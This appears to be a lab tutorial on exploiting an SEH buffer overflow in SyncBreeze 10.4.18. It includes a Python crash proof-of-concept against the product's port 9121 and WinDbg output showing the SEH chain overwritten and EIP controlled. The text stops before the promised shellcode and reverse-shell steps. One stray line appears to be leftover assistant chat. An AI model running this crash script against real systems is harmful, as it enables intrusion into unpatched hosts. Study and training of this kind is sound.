






## Table of Contents
1. [Introduction](#introduction)
2. [Installing Syncbreeze 10.4.18 and general setup](#installation-setup)
3. [Crushing SyncBreeze](#crushing-syncBreeze)
4. [Crash Analysis](#crash-analysis)
5. [Understanding SEH and Windows SEH Validation](#understanding-SEH-and-windows-SEH-validation)
6. [SEH Overflow on Syncbreeze](#SEH-overflow-on-syncbreeze)
7. [Code Execution](#code-execution)
8. [Bad Characters](#bad-characters)
9. [Searching for P/P/R Instruction Sequence](#searching-for-ppr-instruction-sequence)
10. [Island Hopping](#island-hopping)
11. [Getting Shell](#getting-shell)
12. [Closing Thoughts](#closing-thoughts)

## Introduction

Structured Exception Handling (SEH) is a Windows mechanism used to handle hardware and software exceptions. On 32-bit x86 Windows, each thread maintains a linked list of exception registration records. The first pointer in this chain is stored in the Thread Environment Block at `FS:[0]`. Each `EXCEPTION_REGISTRATION_RECORD` contains two important fields: a `Next` pointer, which links to the previous record in the chain, and a `Handler` pointer, which points to the function responsible for handling the exception[reference:0]. When an exception occurs, Windows walks this linked list and calls the first valid handler it finds[reference:1]. All SEH chains always end with a default Windows SEH record, whose `Next` field points to `0xFFFFFFFF` to indicate the end of the chain[reference:2].

A classic SEH buffer overflow occurs when a stack-based buffer overflow is large enough to overwrite one of these exception registration records. If an attacker can control both the `Next` and `Handler` fields, they can hijack the exception dispatch process[reference:3]. The usual exploitation strategy is to overwrite the `Handler` pointer with the address of a `POP POP RET` gadget and overwrite the `Next` field with a short jump[reference:4]. When the exception is triggered, Windows calls the overwritten handler. The `POP POP RET` sequence adjusts the stack and returns execution toward the overwritten SEH record, where the `Next` field acts as a small jump into shellcode placed later on the stack[reference:5].

This technique is not always reliable on modern Windows systems. Protections such as SafeSEH, SEHOP, DEP, and ASLR can prevent or significantly complicate SEH exploitation. SafeSEH validates that a handler points to a registered function, while SEHOP verifies the integrity of the exception chain before dispatching it[reference:6]. DEP can block execution from the stack, and ASLR makes gadget addresses unpredictable. However, older 32-bit applications are often compiled without these mitigations, making SEH overflows still viable in lab and legacy environments.

The target used in this writeup, SyncBreeze 10.4.18, is a good example of this class of vulnerability. Its HTTP login handling can be driven to a stack overflow that overwrites the SEH chain, allowing an attacker to take control of execution. In the following sections, we will reproduce the overflow in an isolated lab, identify the offset to the SEH record, find a usable `POP POP RET` gadget, check for bad characters, generate shellcode, and obtain a reverse shell.

Additional reading for SEH overflow: [SEH Based Buffer Overflow | Red Team Notes](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/seh-based-buffer-overflow)

## Installing Syncbreeze 10.4.18 and general setup

SyncBreeze 10.4.18 can be downloaded from the exploit db since the official repository does not have a download link. For convenience, the installer used in this lab is available here:

[Download SyncBreeze 10.4.18](https://www.exploit-db.com/apps/d478c84dbae5323f2be53f9007b21f24-syncbreezeent_setup_v10.4.18.exe)

The installation itself is a simple and typical Windows application installation. Run the installer, accept the license agreement, choose an installation directory, and complete the wizard. No special configuration is required during setup.

Once the installation finishes, launch SyncBreeze. The most important step is to enable the web server and set the server control port. Open the application, go to **Options**, and locate the web server settings. Enable the web server on port `80` and set the control port to `9121`. After applying the settings, verify that the login page is accessible by navigating to `http://<target-ip>:80` in a browser. If the login page loads, the installation and web server configuration were successful.





During exploit development, we will inevitably crash SyncBreeze multiple times. Rather than relaunching the application manually each time, it is good practice to open `services.msc` and locate the SyncBreeze service. From there, you can quickly restart the service after each crash, saving considerable time during the debugging process.



Finally, ensure that you have **WinDbg (32-bit)** installed. WinDbg is a Windows debugger that comes as part of the Windows SDK. It is essential for analyzing crashes, inspecting the SEH chain, and verifying offsets during exploit development. The Windows SDK can be downloaded from Microsoft's official page:

[Windows SDK](https://learn.microsoft.com/en-us/windows/apps/windows-sdk/)

## Crushing SyncBreeze

With SyncBreeze installed, the web server running on port `9121`, and WinDbg ready, we can begin the exploit development process. The goal of this first step is simple: send a large buffer to the SyncBreeze web server and observe the crash in a debugger. This confirms that we can influence the application's execution flow and gives us a starting point to build a full exploit.

The following Python script is our initial proof of concept. It connects to the SyncBreeze web server on port `9121` and sends a crafted buffer containing 1000 `A` bytes (`\x41`).

```python
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    inputBuffer = b"\x41" * size

    header = b"\x75\x19\xba\xab"
    header += b"\x03\x00\x00\x00"
    header += b"\x00\x40\x00\x00"
    header += pack('<l', len(inputBuffer))
    header += pack('<l', len(inputBuffer))
    header += pack('<l', inputBuffer[-1])

    buf = header + inputBuffer

    print("Sending evil buffer ...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buf)
    s.close()

    print("Done!")

except socket.error:
    print("Could not connect!")
```

The script itself is straightforward. It builds a buffer consisting of a fixed header followed by a large block of `A` characters, and sends it to the target. The header bytes are specific to the SyncBreeze protocol and were identified through reverse engineering. While the reverse engineering process is outside the scope of this writeup, the same header can be obtained from any publicly available proof-of-concept exploit for SyncBreeze 10.4.18. From here, we will slowly build on this initial script until it becomes a complete working exploit.

> Important note: Always run wingdb32 as an administrator to access processes running as admin for example syncbrcs.exe

Before running the script, attach WinDbg to the SyncBreeze process. You can do this from the WinDbg menu by selecting **File → Attach to a Process** and choosing the `syncbrs.exe` process.



When you attach for the first time, WinDbg will automatically break into the process with an `int3` opcode. This is normal. In the command window, type `g` and press Enter to let the process continue running.



Now, on your development machine, execute the script:

```
py seh_overflow_01.py 10.x.x.x
```

Replace `10.x.x.x` with the IP address of your Windows target. After the script runs, switch back to WinDbg. You should see an access violation similar to the following:



This is a simple but important proof that our first script has successfully overflowed SyncBreeze with a bunch of `A` characters. The access violation occurs because the application is attempting to read or dereference a pointer from a register that has been overwritten with our input. In this case, the `EAX` register contains `0x41414141`, which is simply `AAAA` in hexadecimal. This tells us that we control the value in `EAX` at the time of the crash, and it is being used as a pointer.

Here's the next section for your writeup, with the WinDbg output properly integrated as evidence.

## Crash Analysis

With the first crash confirmed, we now need to understand exactly what is happening inside the debugger. This analysis will tell us which registers we control and whether we can redirect execution flow. Let's start by looking at the state of the application when the crash occurs.

```
(a0c.1980): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
eax=41414141 ebx=00a9fa0c ecx=00a9ff08 edx=00a9f9c4 esi=00a9ff08 edi=00a9fb10
eip=00812a9d esp=00a9f998 ebp=00a9feb8 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
libpal!SCA_ConfigObj::Deserialize+0x1d:
00812a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
```

The first crash happens because the application is attempting to call an instruction located at the offset `0x24` from the address stored in `EAX`. Looking at the register dump, `EAX` has been overwritten with `0x41414141` (`AAAA`), which means the instruction `call dword ptr [eax+24h]` is trying to dereference `0x41414141 + 0x24 = 0x41414165`. That address is not mapped in memory, so Windows raises an access violation. This confirms that our buffer has overwritten the pointer that the application was using to make this indirect call.

Now let's investigate the registers at the time of the crash. The most important register for controlling execution flow is `EIP`. Looking at the register dump, `EIP` is still `0x00812a9d`, which is the address of the failing instruction itself it is not under our control. The only register we control at this point is `EAX`, which contains our `A` bytes.

```
0:008> r
eax=41414141 ebx=00a9fa0c ecx=00a9ff08 edx=00a9f9c4 esi=00a9ff08 edi=00a9fb10
eip=00812a9d esp=00a9f998 ebp=00a9feb8 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
libpal!SCA_ConfigObj::Deserialize+0x1d:
00812a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
```

If we examine the stack during the crash, we can see that our 1000 `A` bytes are located there. This is visible in the `dds esp L30` output, where the stack starts filling with `41414141` shortly after our header values.

```
0:008> dds esp L30
00a9f998  00a9fb10
00a9f99c  00a9f9ac
00a9f9a0  00000000
00a9f9a4  00a9ff08
00a9f9a8  00a9fa0c
00a9f9ac  00000000
00a9f9b0  008266c2 libpal!SCA_NetMessage::Deserialize+0x82
00a9f9b4  00a9fb10
.... <SNIP> ....
00a9fa34  41414141
00a9fa38  41414141
00a9fa3c  41414141
00a9fa40  41414141
00a9fa44  41414141
00a9fa48  41414141
00a9fa4c  41414141
00a9fa50  41414141
00a9fa54  41414141
```

The idea now is to somehow exploit the `call dword ptr [eax+24h]` instruction. Since we control `EAX`, we control the memory address that is being dereferenced, and ultimately the value that gets called. The pointer chain is `EAX → [EAX+0x24]`, meaning the value stored at `EAX + 0x24` is treated as the target address of the call. If we can point `EAX` to a location that we control and place a valid address at offset `0x24`, we could potentially redirect execution.

Another important detail is that the crash shows a **first chance exception**. This is telling us something unexpected has happened with the program, and normally it should not behave this way. A first chance exception means the debugger gets notified before Windows begins searching for an exception handler. The application itself may have registered SEH handlers that could catch this exception and continue execution.

If we now press `g` in the WinDbg command window to let the application continue, we get a different and very interesting result.

```
0:008> g
(a0c.1980): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=41414141 edx=77b79280 esi=00000000 edi=00000000
eip=41414141 esp=00a9f3e8 ebp=00a9f408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
41414141 ??              ???
```

This time, the output shows that we now somehow have control of the instruction pointer. `EIP` is `0x41414141`, which is our `A` characters. This means that when we allowed the exception to propagate, the SEH mechanism handled it, and during that handling, our overflowed data influenced the execution path until `EIP` was loaded with our input.

## Understanding SEH and Windows SEH Validation

Before we can reliably exploit the crash we observed, we need to understand what SEH actually is and how Windows validates exception handlers. This section covers the underlying structures and the security checks that stand between us and code execution.

### What Is Structured Exception Handling?

Structured Exception Handling (SEH) is a Windows mechanism that gives developers a chance to respond when something unexpected happens during the execution of a thread. When a thread faults for example, due to an access violation the operating system invokes a set of user-defined functions known as **exception handlers**. These handlers can either correct the condition, provide more information about it, or pass it along. They are created at compile time from `_except` code blocks.

If none of the user-defined handlers can deal with the exception, the operating system falls back to a **default exception handler** that terminates the process or thread. This default handler is always the last node in the exception chain.

### Per-Thread and the TEB

SEH works on a **per-thread basis**. Every thread in a process has a Thread Environment Block (TEB), a structure that stores thread-specific information. The CPU can access the TEB at any time through the `FS` segment register at offset zero (`fs:[0]`) on x86.

Every time a `try` block is entered, a pointer to the corresponding exception handler is pushed onto the stack inside an `_EXCEPTION_REGISTRATION_RECORD` structure. Since a function can contain multiple `try` blocks, these records are linked together in a singly-linked list. The TEB points to the head of this list.

We can inspect these structures in WinDbg:

```
0:006> dt _EXCEPTION_REGISTRATION_RECORD
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next    : Ptr32 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler : Ptr32 _EXCEPTION_DISPOSITION
```

As shown above, each record has two members:

- **Next** a pointer to the next record in the list.
- **Handler** a pointer to the exception handler function.

The TEB itself starts with a nested `_NT_TIB` structure, whose first member is `ExceptionList`, a pointer to the first `_EXCEPTION_REGISTRATION_RECORD`.

```
0:006> dt _NT_TIB
ntdll!_NT_TIB
   +0x000 ExceptionList : Ptr32 _EXCEPTION_REGISTRATION_RECORD
   +0x004 StackBase     : Ptr32 Void
   +0x008 StackLimit    : Ptr32 Void
   ...
```

### The Exception Handler Function

The `Handler` member points to a function with the following prototype:

```c
typedef EXCEPTION_DISPOSITION _except_handler (*PEXCEPTION_ROUTINE) (
    IN PEXCEPTION_RECORD ExceptionRecord,
    IN VOID              EstablisherFrame,
    IN OUT PCONTEXT      ContextRecord,
    IN OUT PDISPATCHER_CONTEXT DispatcherContext
);
```

Two parameters matter most for exploitation:

- **EstablisherFrame** points to the `_EXCEPTION_REGISTRATION_RECORD` structure being used to handle the exception.
- **ContextRecord** points to a `CONTEXT` structure that holds processor-specific register data at the time the exception was raised.

The `CONTEXT` structure is especially relevant because it stores the state of all registers, including `EIP`:

```
0:006> dt ntdll!_CONTEXT
   +0x0b0 Eax  : Uint4B
   +0x0b4 Ebp  : Uint4B
   +0x0b8 Eip  : Uint4B
   +0x0bc SegCs : Uint4B
   ...
```

After the exception has been handled, the information in this structure is used to restore the execution flow. If we can influence the `CONTEXT` structure, we can influence what the CPU executes when execution resumes.

The handler returns an `_EXCEPTION_DISPOSITION` value:

- **ExceptionContinueExecution (0)** the handler dealt with the exception; resume execution.
- **ExceptionContinueSearch (1)** the handler could not deal with it; move to the next record in the list.

### How Windows Dispatches an Exception

When an exception occurs, `ntdll!KiUserExceptionDispatcher` is called. This function takes two arguments: an `_EXCEPTION_RECORD` describing the exception and a `CONTEXT` structure. It eventually calls `RtlDispatchException`, which retrieves the TEB and walks the `ExceptionList`.

For each `Handler` in the list, the operating system performs validation checks before calling it. This is where the security mitigations come into play.

### SafeSEH Validation

During dispatch, Windows calls `RtlIsValidHandler` for every exception handler. This function implements **SafeSEH**. If a module was compiled with the SafeSEH flag, the linker produced an image containing a table of safe exception handlers. The operating system compares the handler on the stack against that table. If the handler is not found in the table, it is refused.

The pseudo-code for `RtlIsValidHandler` (from Windows 8.1, largely the same on Windows 10) looks roughly like this:

```c
BOOL RtlIsValidHandler(Handler)
{
    if (/* Handler within the image */) {
        if (DllCharacteristics->IMAGE_DLLCHARACTERISTICS_NO_SEH)
            goto InvalidHandler;
        if (/* The image is .Net assembly, 'ILonly' flag is enabled */)
            goto InvalidHandler;
        if (/* Found 'SafeSEH' table */) {
            if (/* Image registered in 'LdrpInvertedFunctionTable', or
                  process initialization not complete */) {
                if (/* Handler found in 'SafeSEH' table */)
                    return TRUE;
                else
                    goto InvalidHandler;
            }
            return TRUE;
        } else {
            if (/* 'ExecuteDispatchEnable' and 'ImageDispatchEnable'
                  flags enabled in 'ExecuteOptions' */)
                return TRUE;
            if (/* Handler is in non-executable area of memory */) {
                if (ExecuteDispatchEnable) return TRUE;
            }
            else if (ImageDispatchEnable) return TRUE;
        }
    }
InvalidHandler:
    RtlInvalidHandlerDetected(...);
    return FALSE;
}
```

If `RtlIsValidHandler` returns `TRUE`, the operating system calls `RtlpExecuteHandlerForException`, which sets up the arguments and invokes the `_except_handler` function.

### SEHOP

In addition to SafeSEH, Microsoft introduced **Structured Exception Handler Overwrite Protection (SEHOP)**. SEHOP works by verifying that the entire chain of `_EXCEPTION_REGISTRATION_RECORD` structures is valid before invoking any of them. Because a SEH overflow overwrites the `Next` member, the chain is no longer intact, and SEHOP prevents the corrupted handler from executing.

SEHOP is disabled by default on Windows client editions and enabled by default on server editions. This distinction matters when choosing a target environment for SEH exploitation.

Whenever an exception occurs, Windows walks the singly-linked list of `_EXCEPTION_REGISTRATION_RECORD` structures found via the TEB. For each record, it validates the handler with SafeSEH checking whether the handler is registered, and SEHOP verifying that the chain itself has not been corrupted. If validation passes, the handler is invoked. If the handler returns `ExceptionContinueExecution`, execution resumes using the saved register state in the `CONTEXT` structure. If no handler can deal with the exception, the application crashes.

## SEH Overflow on Syncbreeze

A structured exception handler (SEH) overflow is a stack buffer overflow that overwrites one or more registered exception handlers on the stack, allowing an attacker to control the instruction pointer once an exception is triggered. This technique can also bypass Microsoft's GS stack cookie protection, because the exception mechanism redirects execution to the overwritten handler before the vulnerable function returns. Since SEH records are stored near the beginning of the stack and the stack grows backwards, the overflow must be large enough or positioned to reach those records. To confirm the theory, you can restart the application, reattach the debugger, and inspect an intact chain of `_EXCEPTION_REGISTRATION_RECORD` structures before sending the proof-of-concept buffer. Because SEH is per-thread, you inspect the chain of the thread WinDbg breaks into, since the thread that will handle the incoming data has not yet spawned.

After reattaching the SyncBreeze process to WinDbg, the first step is to obtain the TEB (Thread Environment Block) address using the `!teb` command. The first item in the TEB is `ExceptionList`, which, as shown below, is very close to the beginning of the stack.

```
0:011> !teb
TEB at 0030c000
    ExceptionList:        01e8ff60
    StackBase:            01e90000
    StackLimit:           01e8c000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 0030c000
    EnvironmentPointer:   00000000
    ClientId:             00001db8 . 000019f0
    RpcHandle:            00000000
    Tls Storage:          00000000
    PEB Address:          002e5000
    LastErrorValue:       0
    LastStatusValue:      0
    Count Owned Locks:    0
    HardErrorMode:        0
```

An important thing to remember is that on x86, the stack is "head down" it starts at a higher memory address and expands toward lower addresses.

Next, we can inspect the `_EXCEPTION_REGISTRATION_RECORD` structures. Each record contains two members: `Next` and `Handler`. We can iterate through this singly-linked list inside the debugger.

```
0:011> dt _EXCEPTION_REGISTRATION_RECORD 01e8ff60
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x01e8ffcc _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x77b6b570     _EXCEPTION_DISPOSITION  ntdll!_except_handler4+0
0:011> dt _EXCEPTION_REGISTRATION_RECORD 0x01e8ffcc
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x01e8ffe4 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x77b6b570     _EXCEPTION_DISPOSITION  ntdll!_except_handler4+0
0:011> dt _EXCEPTION_REGISTRATION_RECORD 0x01e8ffe4
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0xffffffff _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x77b793bd     _EXCEPTION_DISPOSITION  ntdll!FinalExceptionHandlerPad13+0
```

After iterating through the linked list, we notice the `Next` address for the last `_EXCEPTION_REGISTRATION_RECORD` is set to `0xffffffff`, which is the default exception handler specified by the operating system.

Now let's continue execution of the program with the `g` command and run our exploit. Once the exception occurs, we can walk through the linked list just as we did above.

```
0:011> g
(1db8.1c38): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
eax=41414141 ebx=01e8fa0c ecx=01e8ff08 edx=01e8f9c4 esi=01e8ff08 edi=01e8fb10
eip=00b02a9d esp=01e8f998 ebp=01e8feb8 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
libpal!SCA_ConfigObj::Deserialize+0x1d:
00b02a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
0:014> !teb
TEB at 00381000
    ExceptionList:        01e8fe0c
    StackBase:            01e90000
    StackLimit:           01e8f000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 00381000
    EnvironmentPointer:   00000000
    ClientId:             00001db8 . 00001c38
    RpcHandle:            00000000
    Tls Storage:          005adfb0
    PEB Address:          002e5000
    LastErrorValue:       0
    LastStatusValue:      c000000d
    Count Owned Locks:    0
    HardErrorMode:        0
0:014> dt _EXCEPTION_REGISTRATION_RECORD 01e8fe0c
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x01e8ff44 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x00b7df5b     _EXCEPTION_DISPOSITION  libpal!md5_starts+0
0:014> dt _EXCEPTION_REGISTRATION_RECORD 0x01e8ff44
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x41414141 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x41414141     _EXCEPTION_DISPOSITION  +41414141
```

Now it is clear what has happened: the program is trying to read and execute from an unmapped memory page. Inside our debugger, we can see the list of exception handlers with the `!exchain` command.

```
0:014> !exchain
01e8fe0c: libpal!md5_starts+149fb (00b7df5b)
01e8ff44: 41414141
Invalid exception stack at 41414141
```

`!exchain` shows the address of an `_except_handler` function has been overwritten by our buffer (`0x41414141`). So when this `_EXCEPTION_REGISTRATION_RECORD` structure is called to handle an exception, the CPU will call `0x41414141`, which in return gives us control of the `EIP` register.

```
0:014> g
(1db8.1c38): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=41414141 edx=77b79280 esi=00000000 edi=00000000
eip=41414141 esp=01e8f3e8 ebp=01e8f408 iopl=0         nv up ei pl zr na pe nc
